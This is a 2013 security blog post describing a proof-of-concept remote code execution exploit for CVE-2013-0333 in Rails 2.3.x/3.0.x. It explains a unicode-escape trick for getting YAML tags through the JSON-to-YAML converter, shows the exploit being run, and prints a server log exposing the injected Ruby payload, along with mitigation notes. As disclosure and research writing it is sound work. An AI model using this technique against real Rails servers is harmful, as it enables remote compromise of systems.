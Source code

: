 ```yaml
---
layout: post
title: Rails PoC exploit for CVE-2013-0333
author: postmodern
tags:
 - rails
 - ronin
 - poc
 - exploit
---
```


**TL;DR:** Same YAML [vulnerability][1], different code-path.

* [rails_omakase.rb]

Hot on the heels of [CVE-2013-0156], [CVE-2013-0333] was announced.
A code-path was discovered that allows `text/json` requests to be
translated into and parsed as YAML. This behavior _only_ exists in
Rails 2.3.x and 3.0.x.
 
This exploit uses the same YAML deserialization technique as the previous
[Rails PoC exploit][rails_rce.rb]. Please see the previous [write-up][1] for a
detailed explanation of how to achieve Remote Code Execution (RCE) via
`YAML.load`.

## ActiveSupport::JSON

In Rails 3.0.x, [ActiveSupport::JSON] acts as a proxy to various JSON parsing
libraries. By default Rails 3.0.x provides the [JSONGem], [Yajl] and [Yaml]
backends. [JSONGem] uses the [json] gem, [Yajl] uses the high-performance
[yajl] JSON parser, and [Yaml] attempts to translate JSON into YAML
before passing it to `YAML.load`. Oddly enough, [Yaml] (and not [JSONGem])
is the default JSON backend in Rails 3.0.x:

{% highlight ruby %}
ActiveSupport::JSON.backend
=> ActiveSupport::JSON::Backends::Yaml
{% endhighlight %}

The problem with the [Yaml] backend is that it's [convert_json_to_yaml] method
is incredibly naive. The method uses [StringScanner] to walk through the JSON
string, replacing JSON tokens with their YAML equivalents. The method does not
fully parse the JSON in order to emit proper YAML, nor does it validate that
the input is actually valid JSON. This is our opening.

However, [convert_json_to_yaml] does replace all `:` characters with `: `,
in an attempt to convert JSON Hashes into YAML Hashes. This will corrupt
our YAML tags:

{% highlight ruby %}
yaml = "--- !ruby/hash:ActionController::Routing::RouteSet::NamedRouteCollection"
ActiveSupport::JSON::Backends::Yaml.send(:convert_json_to_yaml,yaml)
# => "--- !ruby/hash: ActionController: : Routing: : RouteSet: : NamedRouteCollection"
{% endhighlight %}

Luckily, [convert_json_to_yaml] also parses JSON unicode-escaped characters:

{% highlight ruby %}
ActiveSupport::JSON::Backends::Yaml.send(:convert_json_to_yaml,yaml.gsub(':','\u003a'))
# => "--- !ruby/hash:ActionController::Routing::RouteSet::NamedRouteCollection"
{% endhighlight %}

Now to get the YAML payload from [rails_rce.rb] executing. The `module_eval`ed
code in [ActionController::Routing::RouteSet::NamedRouteCollection#define_hash_access][define_hash_access 3.0.x]
was similar to that of Rails 2.8.x, and was changed in [Rails 3.1.x][define_hash_access 3.1.x].
Due to this difference, we simply reused the Rails 2.x payload from the
[rails_rce.rb] exploit.

After some minor modifications to [rails_rce.rb] we had a working exploit:

{% highlight shell %}
$ rails_omakase http://localhost:3000/secrets "puts 'lol'"
{% endhighlight %}

    lol
    
    Started POST "/secrets" for 127.0.0.1 at 2013-01-28 18:53:18 -0800
      Processing by SecretsController#show as 
      Parameters: {"_json"=>#<ActionDispatch::Routing::RouteSet::NamedRouteCollection:0x00000002221080 @routes={:"foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n"=>#<struct defaults={:action=>"create", :controller=>"foos"}, required_parts=[], requirements={:action=>"create", :controller=>"foos"}, segment_keys=[:format]>}, @helpers=[:"hash_for_foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_url", :"foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_url", :"hash_for_foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_path", :"foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_path"], @module=#<Module:0x00000002220fb8>>}
    Rendered text template (0.0ms)
    Completed 200 OK in 2ms (Views: 1.4ms | ActiveRecord: 0.0ms)

## Again?

When Rails was updated for [CVE-2013-0156], it did not actually fix the
underlying root cause, that the [Psych][psych] YAML parser
[does not have a safe-mode][5]. As long as developers continue allowing
user-input near `YAML.load`, and there is no safe-mode to prevent YAML from
deserializing arbitrary Classes, YAML deserialization vulnerabilities will
continue to pop up. In the meantime, there is a [safe_yaml] library, which
provides a safe-mode.

**Update:** [@nelhage] has written a [monkey-patch][6] for YAML,
that prevents any non-primitive objects from being deserialized. I have tested
this workaround against [rails_omakase.rb] on Ruby 1.9.3-p362 and Rails 3.0.19,
and can confirm it prevents the exploit from working. However, once loaded
it effects all `YAML.load` calls and cannot be disabled.

## Omakase?

I named this exploit [rails_omakase.rb], as an ode to [Rails Is Omakase][2];
I highly recommend the [dramatic reading][3]. In the blog post,
David Heinemeier Hansson (DHH) discusses the criticism Rails Core has received
over their changes to default settings. His main complaint is that merely
complaining about the changes, and not contributing code, does not improve the 
development process of Rails.

This vulnerability was the result of [changing the default JSON backend][4] from
[JSONGem] to [Yaml]. Additionally, it is unclear why anyone would ever
consider attempting to convert JSON into YAML, without fully parsing it first.
Like wise, [CVE-2013-0156] is equally perplexing, who could possibly think any
good would come from embedding YAML in XML?

Despite DHH's reassurance that Rails Core has the best of intentions when they
change default settings, they can and do make mistakes.

[CVE-2013-0156]: https://groups.google.com/forum/?fromgroups=#!topic/rubyonrails-security/61bkgvnSGTQ
[CVE-2013-0333]: https://groups.google.com/forum/?fromgroups=#!topic/rubyonrails-security/1h2DR63ViGo

[rails_omakase.rb]: https://gist.github.com/4660248
[rails_rce.rb]: https://gist.github.com/4499206

[json]: http://flori.github.com/json/
[yajl]: http://lloyd.github.com/yajl/
[psych]: https://github.com/tenderlove/psych
[safe_yaml]: https://github.com/dtao/safe_yaml#readme

[StringScanner]: http://rubydoc.info/stdlib/strscan/StringScanner
[ActiveSupport::JSON]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/decoding.rb
[JSONGem]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/jsongem.rb
[Yajl]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/yajl.rb
[Yaml]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/yaml.rb
[convert_json_to_yaml]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/yaml.rb#L29-L96
[define_hash_access 3.0.x]: https://github.com/rails/rails/blob/v3.0.19/actionpack/lib/action_dispatch/routing/route_set.rb#L166-L171
[define_hash_access 3.1.x]: https://github.com/rails/rails/blob/v3.1.0/actionpack/lib/action_dispatch/routing/route_set.rb#L166-L171

[1]: http://ronin-ruby.github.com/blog/2013/01/09/rails-pocs.html
[2]: http://david.heinemeierhansson.com/2012/rails-is-omakase.html
[3]: http://gilesbowkett.blogspot.com/2013/01/a-dramatic-reading-of-rails-is-omakase.html
[4]: https://github.com/rails/rails/commit/a87683fb38d6cf66f39a7bd3faa6c969c63b1f46
[5]: https://github.com/tenderlove/psych/issues/119
[6]: https://gist.github.com/4659489
